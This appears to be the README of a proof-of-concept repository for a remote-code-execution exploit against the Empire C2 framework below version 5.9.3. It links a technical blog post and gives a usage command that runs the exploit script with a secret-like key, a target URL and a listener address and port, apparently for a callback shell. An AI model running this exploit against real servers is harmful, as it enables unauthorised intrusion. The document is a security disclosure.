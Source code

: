 # Empire-C2-RCE-PoC
RCE PoC for Empire C2 framework &lt;5.9.3

### Technical Blog
[Exploiting Empire C2 Framework](https://aceresponder.com/blog/exploiting-empire-c2-framework)

### Usage

```
pip install -r requirements.txt
python3 ./rotj.py '%6DStUJ:~R10h^Ea.@ops?-d{73Cnu>m' 'http://192.168.158.171:80' 127.0.0.1 4444
```
